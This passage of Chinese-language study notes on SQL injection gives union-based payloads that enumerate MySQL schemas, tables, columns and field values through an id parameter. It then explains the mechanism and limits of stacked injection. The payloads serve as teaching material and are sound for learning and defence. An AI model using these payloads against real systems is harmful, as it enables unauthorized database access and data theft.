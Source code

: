 这里使用null是因为需要匹配数据格式，而null是可以匹配任意数据格式的

**再判断哪一列是输出点**

```
每个位置输出不同的值来判断
```

**最后进行注入**

```mysql
联合查询，获取库名
?id=-1"union select 1,2,group_concat(schema_name) from information_schema.schemata#

联合查询，获取表名 
?id=-1"union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='已知库名'#

?id=-1"union select 1,2,group_concat(table_name) from mysql.innodb_table_stats where database_name='已知库名'#


联合查询，获取字段名
?id=-1"union select 1,2,group_concat(column_name) from information_schema.columns where table_name='已知表名'#


联合查询，获取字段值
?id=-1"union select 1,2,group_concat(字段1，字段2...) from 已知表名#
```

> 注意：
>
> 因为后端查询语句可能只拿第一行查询结果如`$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";`，所以需要构造一个不存在的值如-1，使得联合查询的结果成为第一行；
>
> 要查的表的名称(这个表是不是在现在使用的数据库中，没有的话表名=数据库.表名)





### 堆叠注入

##### 原理

> 后端使用的查询函数为`mysqli_multi_query()` ，支持多条语句查询
>
> 而不是`mysqli_query()` ，仅支持一条语句查询



##### 局限性

- 并不是每一个环境下都可以执行，可能受到 API 或者数据库引擎的影响

- 无回显：在 Web 中代码通常只返回一个查询结果，因此，堆叠注入第二个语句产生错误或者结果只能被忽略

  **解决方法**：可以通过先将内容插入到数据库中，然后再通过查询查出来
